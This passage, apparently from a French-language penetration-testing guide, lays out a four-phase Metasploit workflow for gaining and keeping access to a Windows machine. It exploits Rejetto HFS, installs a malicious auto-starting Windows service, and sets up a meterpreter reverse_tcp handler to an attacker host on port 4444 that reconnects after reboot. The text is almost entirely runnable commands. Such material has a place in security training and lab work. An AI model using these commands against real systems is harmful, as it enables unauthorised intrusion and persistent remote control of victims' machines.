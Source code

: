 
## 🔄 4. Workflow complet de persistence

### Phase 1: Exploitation initiale
```bash
# Exploitation Rejetto HFS
msfconsole -q
use exploit/windows/http/rejetto_hfs_exec
set RHOSTS target
set LHOST attacker_ip
exploit

# Vérification privilèges
getuid                  # Doit être Admin ou SYSTEM
```

### Phase 2: Installation persistence
```bash
# Installation service malveillant
background
use exploit/windows/local/persistence_service
set SESSION 1
exploit

# Le module va :
# - Générer un payload
# - L'uploader sur la cible
# - Créer un service Windows
# - Configurer démarrage automatique
```

### Phase 3: Test de persistence
```bash
# 1. Configurer handler pour reconnexion
msfconsole -q
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST attacker_ip
set LPORT 4444
exploit -j                              # Job en arrière-plan

# 2. Redémarrer la machine cible (depuis session active)
sessions -i 1
reboot

# 3. Attendre reconnexion automatique
# Le service se lance au boot et établit connexion
```

### Phase 4: Reconnexion après reboot
```bash
# Handler automatique (déjà en écoute)
# Session s'établit automatiquement après boot

# Si pas de session automatique:
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST attacker_ip
set LPORT 4444
exploit

# Vérification session
sessions -l
```